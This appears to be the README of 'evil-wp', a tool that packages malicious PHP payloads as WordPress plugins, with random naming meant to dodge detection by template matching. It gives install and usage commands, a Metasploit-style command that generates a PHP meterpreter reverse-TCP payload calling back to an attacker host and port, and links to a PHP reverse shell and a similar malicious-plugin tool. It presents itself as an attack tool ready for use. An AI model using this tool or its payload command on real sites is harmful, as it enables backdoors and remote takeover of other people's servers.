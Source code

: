 # evil-wp
This is a small project to wrap malicous PHP payloads into a WordPress plugin.

Random name generation is thrown in for fun and a slight attempt at reducing detection by template pattern matching.

## Pre-Requisites
This attack requires the ability to install plugins to the target WordPress installation.

## Installation
To install this simple tool, clone this repository and use pip to install the requirements.

``` bash
$ git clone https://github.com/svespie/evil-wp
$ cd evil-wp
$ pip install -r requirements.txt
```

Consider using a virtual environment as a matter of best practice.

## Usage
``` bash
$ python evil-wp.py -h
$ python evil-wp.py -n <plugin_name> -p "<payload>"
```

* the plugin name should be unique to the installation being attacked
* the payload can be any valid PHP code


## Example Payload Generation
msfvenom is a great place to start with for generating PHP payloads.

``` bash
$ msfconsole -p php/meterpreter/reverse_tcp LHOST=<attacker_host LPORT=<listening_port> -e php/base64 -f raw
```

Any valid PHP will work, including traditional PHP reverse shell payloads such as this one: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php.

Note: the payload is inserted into a PHP template. There is no need to include PHP opening and closing tags.

Good luck!

## Similar Projects
* https://github.com/wetw0rk/malicious-wordpress-plugin/blob/master/wordpwn.py (a nifty tool that automates meterpreter use)